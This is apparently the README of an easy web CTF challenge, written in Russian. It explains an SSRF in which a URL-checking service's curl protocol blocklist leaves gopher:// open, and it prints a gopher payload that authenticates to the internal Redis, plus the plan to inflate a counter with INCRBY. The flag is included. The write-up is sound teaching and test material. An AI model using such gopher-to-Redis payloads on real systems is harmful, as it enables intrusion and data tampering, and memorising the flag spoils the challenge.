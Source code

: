 # c0ll3ct0r | easy | web

## Информация

> Collect urls, earn flags!
>
> http://{ip}:10015

## Деплой

```sh
cd deploy
docker-compose -f docker-compose-prod.yml up --build -d
```

## Выдать участинкам

Архив из директории [public/](public/) и текст из раздела "Информация".

## Описание

Сборщик url'ов, на каждый url шлётся запрос для проверки валидности через curl, юзеру нужно собрать 1 млрд. уникальных 
урлов, тогда получит флаг (скриптом невозможно из-за ограничений сервиса). Счетчик скормленных урлов хранится в redis, 
у curl не запрещён gopher://, можем сформировать запрос к redis, который увеличит счетчик до 1 млрд. для юзера с помощью INCRBY

## Решение

Заходим на сайт, регистрируемся, видим что для полчуения 'Flag #1' нужно отправить 1 млрд. уникальных URL'ов (уникальность на уровне домена).  
Понимаем что сделать это руками/скриптом невозможно (даже если попытаемся упрёмся в лимит).

Смотрим код сервиса. Видим что запросы шлются через curl, после проверяется статус код и уникальность в БД, если всё ок, 
то увеличивается счетчик сданных url'ов с redis.

В коде захардкожены креды от redis:
```go
postgresHost, redisHost := "localhost", "localhost"
	if os.Getenv("ENVIRONMENT") == "production" {
		postgresHost = "postgres"
		redisHost = "redis"
	}
```
Значит есть смысл поискать возможность дернуть Redis.

У curl запрещены протоколы с помощью блэк листа:
```go
var BLOCKED_PROTOCOLS = []string{"DICT", "FILE", "FTP", "FTPS", "IMAP", "IMAPS", "LDAP", "LDAPS", "MQTT", "POP3",
	"POP3S", "RTMP", "RTMPS", "RTSP", "SCP", "SFTP", "SMB", "SMBS", "SMTP", "SMTPS", "TELNET", "TFTP", "WS", "WSS"}
```
А это значит, что возможно что-то забыли закрыть, гуглим, узнаем что забыли закрыть протокол `gopher://`, с помощью
которого как раз таки можно дергать Redis.

А еще замечаем интересную вещь, при невалидном статус коде, нам в респонсе ещё вернётся body ответа на запрос:
```go
if !slices.Contains(ALLOWED_STATUS_CODES, statusCode) {
return c.String(http.StatusBadRequest, "Invalid status code: "+strconv.Itoa(statusCode)+"\nresp: "+responseBody)
}
```

Составляем запрос к Redis (как это делается можно посмотреть [тут](https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup)):
```json
{
  "url": "gopher://redis:6379/_%0D%0Aauth%20redis%20redis%0D%0Ainfo%0D%0Aquit%0D%0A"
}
```
В ответ получаем:
```
Invalid status code: 0
resp: +OK
$5581
# Server
redis_version:7.4.2
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9d14eaf5f599583e
redis_mode:standalone
os:Linux 6.1.0-30-amd64 x86_64
arch_bits:64
monotonic_clock:POSIX clock_gettime
multiplexing_api:epoll
atomicvar_api:c11-builtin
...
```
А значит всё получилось, осталось составить запрос с INCRBY нужного ключа (счетчика url'ов для нашего аккаунта и получить флаг).  
[Пример эксплойта.]([solve.py](solve/solve.py))

## Флаг

`ozonctf{c0ll3ct0r_url_net_c0ll3ct0r_dom41n_h86d}`

